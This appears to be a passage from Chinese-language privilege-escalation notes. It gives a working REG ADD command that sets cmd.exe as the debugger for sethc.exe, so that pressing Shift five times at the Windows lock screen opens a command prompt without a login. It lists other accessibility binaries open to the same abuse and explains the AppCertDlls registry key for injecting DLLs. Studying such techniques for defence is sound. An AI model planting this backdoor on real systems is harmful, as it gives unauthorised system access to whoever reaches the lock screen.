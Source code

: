 实际上也可以通过注册表来进行操作，只修改注册表，不替换实际文件：

```
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d “C:\windows\system32\cmd.exe” /f
```

在桌面锁定的时候按下五次shift即可在没有进入桌面的情况下调用cmd

![1574767481596](Privilege%20Escalation.assets/1574767481596.png)

```
其他类似的功能还有
屏幕键盘： C:\Windows\System32\osk.exe
放大镜： C:\Windows\System32\Magnify.exe
旁白： C:\Windows\System32\Narrator.exe
显示切换器： C:\Windows\System32\DisplaySwitch.exe
App切换器： C:\Windows\System32\AtBroker.exe
```

## AppCert DLL-T1182

如果有进程使用了CreateProcess、CreateProcessAsUser、CreateProcessWithLoginW、CreateProcessWithTokenW或WinExec函数，那么此进程会读取注册表项：

```
HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\SessionManager\AppCertDlls
```

此项下的dll都会加载到此进程。（Win7下默认没有此项）

![1574767636462](Privilege%20Escalation.assets/1574767636462.png)
